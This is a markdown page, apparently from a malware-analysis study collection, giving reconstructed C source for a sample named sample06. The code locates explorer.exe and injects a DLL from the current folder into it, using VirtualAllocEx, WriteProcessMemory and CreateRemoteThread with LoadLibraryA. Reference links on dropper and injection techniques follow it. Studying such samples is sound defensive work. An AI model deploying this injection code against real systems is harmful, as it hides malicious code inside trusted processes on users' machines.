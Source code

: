 # #6

### File

- [sample06.exe](./files/sample06.exe)



<br>



## Code

```
#define _CRT_SECURE_NO_WARNINGS

#include <windows.h>
#include <winuser.h>
#include <tlhelp32.h>
#include <stdio.h>

typedef unsigned __int64 QWORD;

LRESULT CALLBACK WndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
	if (uMsg != WM_CREATE) {
		if (uMsg != WM_DESTROY) {
			return DefWindowProcA(hWnd, uMsg, wParam, lParam);
		}
		PostQuitMessage(0);
	}
	return 0;
}

int FindProcess(char *pname)
{
	DWORD dwPID = 0;
	HANDLE hSnapShot = INVALID_HANDLE_VALUE;
	PROCESSENTRY32 pe;

	pe.dwSize = 304;
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, NULL);

	Process32First(hSnapShot, &pe);
	while (_stricmp(pname, pe.szExeFile)) {
		if (!Process32Next(hSnapShot, &pe)) {
			break;
		}
	}

	dwPID = pe.th32ProcessID;

	CloseHandle(hSnapShot);

	return dwPID;
}

int Func_CreateReTh(DWORD pid, LPCVOID path)
{
	int len = lstrlenA((LPCSTR)path) + 1;
	HANDLE res = OpenProcess(0x2Au, 0, pid);
	void* mem;
	HMODULE Module_Handle;
	HMODULE Load_Library;
	void* RemoteThread;

	if (res) {
		mem = VirtualAllocEx(res, NULL, len, 0x3000u, 4u);
		WriteProcessMemory(res, mem, path, len, 0);
		Module_Handle = GetModuleHandleA("kernel32.dll");
		Load_Library = GetProcAddress(Module_Handle, "LoadLibraryA");
		RemoteThread = CreateRemoteThread(res, NULL, 0, Load_Library, mem, 0, 0);
		WaitForSingleObject(RemoteThread, 0xFFFFFFFF);
		CloseHandle(RemoteThread);
		CloseHandle(res);
		return 1;
	}

	return res;
}

int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	WNDCLASSA WndClass;

	if (!FindWindowA(NULL, "sample06")) {
		WndClass.hbrBackground = COLOR_3DSHADOW;
		*(QWORD*)&WndClass.cbClsExtra = 0;
		WndClass.hCursor = LoadCursorA(NULL, IDC_ARROW);
		WndClass.hInstance = hInstance;
		WndClass.hIcon = LoadIconA(NULL, IDI_APPLICATION);
		WndClass.lpfnWndProc = (WNDPROC)WndProc;
		WndClass.lpszClassName = "sample06";
		WndClass.lpszMenuName = NULL;
		WndClass.style = CS_VREDRAW | CS_HREDRAW;

		RegisterClassA(&WndClass);

		HWND newWindow = (__int64)CreateWindowExA(
			0,
			"sample06",
			"sample06",
			WS_CLIPCHILDREN | WS_CAPTION | WS_MINIMIZEBOX | WS_SYSMENU,
			100,
			100,
			100,
			10,
			NULL,
			NULL,
			hInstance,
			NULL);

		char buf[MAX_PATH];
		memset(buf, 0, 0x104u);

		char path[MAX_PATH];
		memset(path, 0, 0x104u);

		GetCurrentDirectoryA(0x104u, buf);
		sprintf(path, "%s\\\\%s", buf, "sampleDLL.dll");

		int pid = FindProcess("explorer.exe");
		if (pid != -1) {
			Func_CreateReTh(pid, path);
		}
	}

	return 0;
}

```



### Reference

- [https://blog.naver.com/stop2y/221131279764](https://blog.naver.com/stop2y/221131279764)
- [https://learn.microsoft.com/ko-kr/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot](https://learn.microsoft.com/ko-kr/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)
- [https://siveriness.tistory.com/26](https://siveriness.tistory.com/26)
- [https://rninche01.tistory.com/entry/Dropper-3-3PE-Injection](https://rninche01.tistory.com/entry/Dropper-3-3PE-Injection)

